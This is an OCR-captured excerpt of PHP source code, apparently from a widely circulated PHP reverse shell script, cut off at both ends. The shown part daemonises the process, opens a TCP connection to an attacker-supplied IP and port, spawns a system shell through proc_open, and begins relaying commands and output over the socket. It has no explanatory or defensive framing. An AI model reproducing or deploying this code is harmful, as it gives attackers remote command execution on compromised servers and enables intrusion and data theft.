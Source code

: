```php
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
```